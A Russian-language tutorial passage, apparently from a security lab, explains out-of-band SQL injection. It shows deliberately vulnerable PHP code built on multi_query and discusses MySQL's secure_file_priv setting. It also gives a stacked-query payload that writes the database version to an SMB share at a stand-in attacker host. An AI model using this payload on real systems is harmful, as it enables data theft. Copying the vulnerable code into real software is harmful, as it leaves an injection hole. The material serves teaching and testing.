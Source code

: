 ответ на обычный запрос

Код сервера выглядит так:

```commandline
$visitor_name = $_GET['visitor_name'] ?? '';

$sql = "SELECT * FROM visitor WHERE name = '$visitor_name'";

echo "<p>Generated SQL Query: $sql</p>";

// Execute multi-query
if ($conn->multi_query($sql)) {
    do {
        // Store first result set
        if ($result = $conn->store_result()) {
            if ($result->num_rows > 0) {
                while ($row = $result->fetch_assoc()) {
```
Важное соображение

Важно отметить, что системная переменная MySQL secure_file_privможет быть установлена. При установке эта переменная содержит путь к каталогу, и MySQL разрешит запись файлов только в этот указанный каталог. Эта мера безопасности помогает снизить риск несанкционированных операций с файлами. 

Если secure_file_priv установлен : MySQL ограничит файловые операции, такие как INTO OUTFILE , указанным каталогом. Это означает, что злоумышленники могут записывать файлы только в этот каталог, ограничивая свои возможности по извлечению данных в произвольные места.
Если secure_file_priv пуста : Если secure_file_priv переменная пуста, MySQL не накладывает никаких ограничений на 
каталоги, позволяя записывать файлы в любой каталог, доступный процессу сервера MySQL. Такая конфигурация представляет более высокий риск, поскольку обеспечивает большую гибкость для злоумышленников.
У злоумышленников обычно нет прямого доступа для проверки значения переменной secure_file_priv. В результате им приходится полагаться на методы hit-and-trial, чтобы определить, могут ли они записывать файлы и где, проверяя различные пути, чтобы увидеть, успешны ли файловые операции.

Подготовка полезной нагрузки

Чтобы воспользоваться этой уязвимостью, злоумышленник создает полезную нагрузку для внедрения в visitor_name параметр.
Полезная нагрузка будет разработана для выполнения дополнительного SQL-запроса, который записывает информацию о 
версии базы данных на внешний ресурс SMB.

`1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --`
Давайте разберем приведенную выше полезную нагрузку:

1': Закрывает исходную строку в запросе SQL .
;: Завершает первый оператор SQL .
SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';: Выполняет новый оператор SQL, который извлекает версию базы данных и записывает ее в общий ресурс SMB по адресу \\ ATTACKBOX_IP \logs\out.txt.
--: Комментирует оставшуюся часть исходного SQL- запроса для предотвращения синтаксических ошибок.
Чтобы использовать полезную нагрузку, злоумышленник должен перейти по URL-адресу, который создает файл на внешнем ресурсе SMB . 
